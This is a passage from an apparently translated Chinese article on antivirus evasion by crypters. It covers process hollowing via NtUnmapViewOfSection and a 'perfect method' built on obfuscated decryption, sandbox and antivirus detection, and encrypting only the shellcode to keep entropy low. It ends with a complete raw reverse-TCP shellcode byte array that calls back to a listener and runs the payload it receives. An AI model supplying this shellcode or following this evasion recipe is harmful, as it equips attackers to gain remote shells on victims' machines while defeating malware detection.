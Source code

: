 当执行PE文件时，操作系统校验PE映像的优先的地址空间的有效性，如果优先地址不可靠，操作系统将在内存中随机选一个可靠的地址加载，在启动前需要调整地址，并根据重定位节重定位地址，然后启动挂起的进程。

为了在内存中执行PE映像，加密器需要解析PE头，重定位地址，不得不模仿系统的行为是不常见且可疑的。当我们分析用C或更高等级的语言编写的加密器时，大部分情况能够看见API函数“NtUnmapViewOfSection”和“ZwUnmapViewOfSection”的调用。这些函数用来在进程中卸载映像。他们在内存中执行PE的方法中扮演了很重要的角色。



```
xNtUnmapViewOfSection = NtUnmapViewOfSection(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection"));
xNtUnmapViewOfSection(PI.hProcess, PVOID(dwImageBase));
```

当然杀软也不能声称每个用这些函数的程序都有问题，但是威胁的可能性会大一点。很少有加密器（尤其是汇编编写的）不使用这些函数和手动重定位。

另一点加密文件会导致熵值升高，将加大被杀软标记其威胁的可能性。

[![](https://p3.ssl.qhimg.com/t0191c1691dba893466.png)](https://p3.ssl.qhimg.com/t0191c1691dba893466.png)

**完美的方法**

加密恶意代码的策略是明智的，但是解密函数应该适当的被混淆，同时在内存中执行被解密的代码时不做重定位操作，还必须有检测机制判断是否在沙盒运行，如果检测到在被杀软分析解密函数应该不执行。不加密整个PE文件，只加密shellcode或者.text节，这能保持低熵和小文件同时不改变映像头和节。

下面是执行流图。

[![](https://p0.ssl.qhimg.com/t014e6da8e281552e63.png)](https://p0.ssl.qhimg.com/t014e6da8e281552e63.png)

AV Detect”功能将用来检测是否在沙盒中运行，如果检测到杀软的特征将再次调用主功能模块或者崩溃，否则进入“Decrypt Shellcode”模块。

下面是反向tcp shellcode的原始格式。



```
unsigned char Shellcode[] = `{`
0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77,
0x73, 0x32, 0x5f, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0xb8,
0x90, 0x01, 0x00, 0x00, 0x29, 0xc4, 0x54, 0x50, 0x68, 0x29, 0x80, 0x6b,
0x00, 0xff, 0xd5, 0x6a, 0x05, 0x68, 0x7f, 0x00, 0x00, 0x01, 0x68, 0x02,
0x00, 0x11, 0x5c, 0x89, 0xe6, 0x50, 0x50, 0x50, 0x50, 0x40, 0x50, 0x40,
0x50, 0x68, 0xea, 0x0f, 0xdf, 0xe0, 0xff, 0xd5, 0x97, 0x6a, 0x10, 0x56,
0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c,
0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5,
0x6a, 0x00, 0x6a, 0x04, 0x56, 0x57, 0x68, 0x02, 0xd9, 0xc8, 0x5f, 0xff,
0xd5, 0x8b, 0x36, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x56, 0x6a,
0x00, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0x53, 0x6a, 0x00,
0x56, 0x53, 0x57, 0x68, 0x02, 0xd9, 0xc8, 0x5f, 0xff, 0xd5, 0x01, 0xc3,
0x29, 0xc6, 0x75, 0xee, 0xc3
`}`;
```
